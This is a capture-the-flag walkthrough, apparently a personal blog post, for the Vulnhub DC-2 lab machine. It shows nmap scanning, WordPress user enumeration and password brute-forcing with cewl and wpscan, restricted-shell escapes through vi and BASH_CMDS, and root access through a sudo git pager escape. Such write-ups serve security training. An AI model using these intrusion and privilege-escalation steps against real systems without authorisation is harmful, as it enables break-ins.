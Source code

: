 ```yaml
---
title: DC-2
tags:
  - Vulnhub
  - DC-2
categories: 
  - 渗透靶机训练
description: Vulnhub DC-2 Challenge
excerpt: Vulnhub DC-2 Challenge
typora-root-url: DC-2
abbrlink: 41337
date: 2021-03-23 16:42:02
---
```


# DC-2

> Notice: This essay was written in English.

> The file I downloaded from Vulnhub didn't appear some network problem on my VMWare, but if you got some problems with the network, please view this essay:[Fix Network Problem In Vulnhub Virtual Machine](https://evalexp.gitee.io/blog/p/38372/)

## FLAG 1

use **nmap** to scan for some information:

```bash
nmap -sC -sV -A -p- 192.168.145.135 -T5 -oN nmap
```

and this is my result:

![image-20210323164831496](image-20210323164831496.png)

We can ensure that there are web services and SSH services on the server.

Let's go on.

I use browser to view that website, but unfortunately, it will redirect to http://dc-2/.

Then I edit the **\/etc\/hosts** file to make this site work, and here is my hosts file:

![image-20210323165515897](image-20210323165515897.png)

Now, let us reopen the website, and it works.

Got Flag1 easily:

![image-20210323165619745](image-20210323165619745.png)

## FLAG 2

Through the prompt of **FLAG1**, I use **cewl** to generate a wordlist to brute-force.

```bash
cewl http://dc-2/ -w wordlist
```

![image-20210323170257045](image-20210323170257045.png)

Now I get the wordlist, then I use wpscan:

```bash
wpscan --url http://dc-2/
```

I got some information useless.

I try to use wpscan to enumerate the user:

```bash
wpscan --url http://dc-2/ -e u
```

And yes, I got it:

![image-20210323170545765](image-20210323170545765.png)

Then I use wpscan to brute-force password:

```bash
wpscan --url http://dc-2/ -P wordlist
```

And I got :

![image-20210323170938819](image-20210323170938819.png)

Well done, but how can I log in?

I use dirb to scan the web path:

```bash
dirb http://192.168.145.135
```

Then I found this path:

![image-20210323171213244](image-20210323171213244.png)

It redirects to /wp-login.php

I log in as user jerry, and got FLAG2:

![image-20210323171423477](image-20210323171423477.png)

## FLAG 3

Through the prompt of **FLAG2**, I guess another entry point is SSH.

I try to connect SSH service as user jerry but failed, fortunately, user tom could.

Because of the limitation of **rbash**, I could not execute cat command:

![image-20210323171814218](image-20210323171814218.png)

Then I use command **export** to see what **PATH** is and use **ls** to list all the **commands**:

![image-20210323172110109](image-20210323172110109.png)

Well, **less** is available, nice !

Let me see the FLAG 3:

```bash
less flag3.txt
```

![image-20210323172204044](image-20210323172204044.png)

## FLAG 4

So, I need to **su jerry**.

I try to **su jerry** using **vi** editor:

```vi bash
:set shell=/bin/bash
:shell
```

Then we export **\/bin** path to **PATH** var:

```bash
export PATH=$PATH:/bin
```

Then use **su** to change the user(password is in the result of wpscan):

```bash
su jerry
```

![image-20210323173248006](image-20210323173248006.png)

Another method to escape rbash :

```bash
BASH_CMDS[a]=/bin/sh;a
export PATH=$PATH:/bin
```

![image-20210323173421355](image-20210323173421355.png)

Got FLAG 4:

![image-20210323173459296](image-20210323173459296.png)

## FLAG 5

I use **sudo -l** to check the privilege of user jerry:

```bash
sudo -l
```

![image-20210323173638007](image-20210323173638007.png)

Well, command git could run in root without password!

I google some help about git, and I found argument **-p**, and git would use **more** to display the information, so :

```bash
sudo git -p help -a
```

Then execute **\/bin\/bash** in **more**:

```bash
!/bin/bash
```

![image-20210323174109303](image-20210323174109303.png)

And we got root privilege:

![image-20210323174138346](image-20210323174138346.png)

Get Final Flag:

![image-20210323174201803](image-20210323174201803.png)